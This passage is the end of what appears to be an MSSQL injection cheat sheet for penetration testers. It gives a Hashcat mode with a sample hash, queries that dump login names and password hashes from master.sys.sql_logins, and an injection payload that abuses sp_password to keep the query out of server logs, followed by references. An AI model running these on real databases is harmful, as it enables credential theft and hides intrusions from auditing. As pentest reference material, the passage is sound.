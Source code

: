 * **MSSQL 2005**: Hashcat mode 132: `0x010018102152f8f28c8499d8ef263c53f8be369d799f931b2fbe`

    ```sql
    SELECT name, password_hash FROM master.sys.sql_logins
    SELECT name + '-' + master.sys.fn_varbintohexstr(password_hash) from master.sys.sql_logins
    ```

## MSSQL OPSEC

Use `SP_PASSWORD` in a query to hide from the logs like : `' AND 1=1--sp_password`

```sql
-- 'sp_password' was found in the text of this event.
-- The text has been replaced with this comment for security reasons.
```

## References

* [AWS WAF Clients Left Vulnerable to SQL Injection Due to Unorthodox MSSQL Design Choice - Marc Olivier Bergeron - June 21, 2023](https://www.gosecure.net/blog/2023/06/21/aws-waf-clients-left-vulnerable-to-sql-injection-due-to-unorthodox-mssql-design-choice/)
* [Error based SQL Injection in "Order By" clause - Manish Kishan Tanwar - March 26, 2018](https://github.com/incredibleindishell/exploit-code-by-me/blob/master/MSSQL%20Error-Based%20SQL%20Injection%20Order%20by%20clause/Error%20based%20SQL%20Injection%20in%20“Order%20By”%20clause%20(MSSQL).pdf)
* [Full MSSQL Injection PWNage - ZeQ3uL && JabAv0C - January 28, 2009](https://www.exploit-db.com/papers/12975)
* [IS_SRVROLEMEMBER (Transact-SQL) - Microsoft - April 9, 2024](https://docs.microsoft.com/en-us/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15)
* [MSSQL Injection Cheat Sheet - @pentestmonkey - August 30, 2011](http://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet)
* [MSSQL Trusted Links - HackTricks - September 15, 2024](https://book.hacktricks.xyz/windows/active-directory-methodology/mssql-trusted-links)
* [SQL Server - Link… Link… Link… and Shell: How to Hack Database Links in SQL Server! - Antti Rantasaari - June 6, 2013](https://blog.netspi.com/how-to-hack-database-links-in-sql-server/)
* [sys.fn_my_permissions (Transact-SQL) - Microsoft - January 25, 2024](https://docs.microsoft.com/en-us/sql/relational-databases/system-functions/sys-fn-my-permissions-transact-sql?view=sql-server-ver15)
